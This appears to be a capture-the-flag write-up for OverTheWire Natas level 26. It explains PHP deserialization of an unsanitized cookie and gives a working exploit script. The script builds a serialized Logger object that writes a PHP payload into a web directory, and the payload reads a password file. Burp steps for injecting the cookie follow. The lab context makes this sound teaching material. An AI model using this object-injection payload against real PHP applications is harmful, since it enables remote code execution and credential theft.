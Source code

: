 The key line is:

$drawing = unserialize(base64_decode($_COOKIE["drawing"]));

If we can craft a malicious object and pass it via the drawing cookie, PHP will unserialize and execute its magic methods — particularly __destruct() in the Logger class, which writes to a file

Create a Logger object with a path we control.

Inject PHP code as the exitMsg.

Trigger __destruct() via unserialize by sending a cookie.

Include the log file to execute our code.

```
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="heyyyyyy\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "/var/www/natas/natas26/img/a.php";
    }
}

$o = new Logger();
print base64_encode(serialize($o))."\n";

?>
```

run this php locally and get the encoded key.

capture the request in burp and paste the copied key in drawing cookie.


![image](https://github.com/user-attachments/assets/2e54fb5c-2944-480b-bc2f-14780d6ca1c3)

Now access the a.php in the web browser to get the answer: http://natas26.natas.labs.overthewire.org/img/a.php


![image](https://github.com/user-attachments/assets/87504701-a13c-4a23-83d2-c77c0dd9cae1)



